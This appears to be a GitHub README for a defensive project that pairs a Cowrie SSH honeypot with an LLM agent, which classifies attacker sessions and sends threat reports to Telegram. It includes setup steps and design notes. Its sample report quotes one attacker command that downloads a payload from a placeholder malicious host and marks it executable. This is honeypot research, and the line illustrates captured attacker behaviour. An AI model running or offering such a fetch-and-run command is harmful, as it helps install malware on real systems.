


# Sentinel: AI-Powered Cloud Threat Intelligence System


**Sentinel** is an autonomous Threat Intelligence & Incident Response system designed to capture, analyze, and report SSH brute-force attacks in real-time.

By leveraging a **Session Buffering Architecture** and an **AI Agent (LLM)**, Sentinel transforms raw logs into actionable security intelligence, moving beyond simple logging to provide context-aware threat analysis.

---

## System Architecture

The system operates on a closed-loop "Trap, Analyze, Report" workflow:


## 🛡️ Core Features

### 1. Advanced Honeypot Infrastructure
* **Dockerized Cowrie:** Deployed on **AWS EC2**, acting as a high-interaction trap to simulate a vulnerable SSH/Telnet environment.
* **Port Manipulation:** Redirects attackers from standard ports to an isolated environment, safely capturing:
    * Keystrokes & Command History
    * Downloaded Malware/Files
    * Session Metadata

### 2. AI-Driven Analysis
* **Intent Recognition:** An integrated **OpenAI Agent** analyzes command chains to categorize attacks (e.g., Reconnaissance, Crypto-mining, Botnet Injection).
* **Noise Reduction:** Automatically filters out generic automated scripts/bots to focus on complex, human-operated intrusion attempts.

### 3. Cost & Performance Optimization (v2)
* **Edge Buffering:** Implemented a custom **Python-based Session Buffering Algorithm**.
* **Logic:** To minimize latency and API costs, the system:
    * Aggregates logs by **Session ID**.
    * Waits for a **120-second idle period** before transmitting data.
    * Sends a single, comprehensive payload to n8n instead of multiple individual log lines.

### 4. Security & Automation
* **Sanitized Pipelines:** Zero hardcoded credentials; all secrets are managed via environment variables (`.env`).
* **Automated Alerting:** Delivers structured security reports and threat intelligence instantly via **Telegram**.
  
```
Sentinel-Project/
├── src/
│   └── log_monitor.py        # Python script for edge buffering & transmission
├── workflows/
│   └── sentinel_workflow.json # n8n Workflow export (AI Agent Logic)
├── deployment/
│   └── docker-compose.yml    # Cowrie Honeypot deployment configuration
├── .env.example              # Environment variables template
└── requirements.txt          # Project dependencies
```

Installation & Setup
Prerequisites
AWS EC2 Instance (Ubuntu/Linux)

Docker & Docker Compose

n8n Cloud Account (or self-hosted instance)

OpenAI API Key & Telegram Bot Token

### 1. Deploy the Honeypot

Initialize the Cowrie container to start listening on port 2222.
```bash
cd deployment
docker-compose up -d
``` 

## 2. Configure Environment

Create a .env file in the root directory to store your sensitive webhook URL.
```bash
cp .env.example .env
nano .env
```
Add your specific n8n Webhook URL inside the file.

## 3. Start the Monitor

Install dependencies and run the monitoring script.
```
pip install -r requirements.txt
python src/log_monitor.py
```

## Engineering Challenges & Solutions

Challenge: API Rate Limiting & Cost

Context: In the initial version (v1), the Python script triggered the n8n webhook for every single log line generated by the honeypot. Problem: During a brute-force attack (thousands of attempts per minute), this flooded the n8n execution quota and spiked API costs.

Solution: Session-Based Aggregation
Implementation: I re-engineered the Python script (log_monitor.py) to act as an intelligent edge buffer.

Grouping: Logs are now grouped locally by Session ID.

Timing: A threading.Timer resets on every new activity.

Execution: Data is only pushed to the cloud after the attacker disconnects or is idle for 120 seconds. Result: Reduced API calls by approximately 95% and provided the AI with full context rather than fragmented lines.

Sample Threat Report (Output)
AI Analysis: "The attacker connected from a known botnet IP range (Brazil). They attempted to download a malicious payload using wget and changed file permissions with chmod +x. This pattern matches the behavior of the Mirai Botnet variant."

Metric,Details
Attacker IP,192.168.x.x
Origin,Brazil (BR)
Session Duration,45 Seconds
Events Recorded,12 Actions
Critical Command,wget http-://malicious-site/payload.sh

---

## 📸 Project Gallery

### 1. The Result: AI-Generated Threat Report
Real-time notification delivered via Telegram. The AI analyzes the raw logs, identifies the attack pattern (Brute-force/Reconnaissance), and summarizes the intent.




### 2. The Brain: Automation Logic (n8n)

Visual workflow demonstrating the data pipeline: `Webhook -> OpenAI Analysis -> Telegram Alert`.


### 3. The Engine: Real-Time Terminal Monitoring

Live dashboard showing the Python script capturing attacker sessions from the Dockerized Honeypot in real-time.


## ⚠️ Disclaimer & Legal Notice

**For Educational and Research Purposes Only**
This project, "Sentinel," is designed strictly for educational purposes, security research, and threat intelligence analysis. It is intended to be deployed in a controlled, isolated environment (e.g., a sandbox or specific honeypot server).

**1. No Liability**
The author of this repository is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this software. Users are solely responsible for their own infrastructure and any costs incurred (e.g., AWS fees, API usage).

**2. Data Privacy & Third-Party Services**
This system captures and processes real-time data, including IP addresses and command logs.
* **Data Processing:** Collected data is processed via third-party services (n8n, OpenAI). Users must ensure they comply with local data privacy regulations (such as GDPR or KVKK) regarding the collection and processing of attacker data.
* **AI Analysis:** Log data is sent to OpenAI for analysis. Do not use this system to process PII (Personally Identifiable Information) or sensitive corporate data.

**3. "As Is" Warranty**
The software is provided "AS IS", without warranty of any kind, express or implied. Use at your own risk.

License
This project is open-source and available under the MIT License.
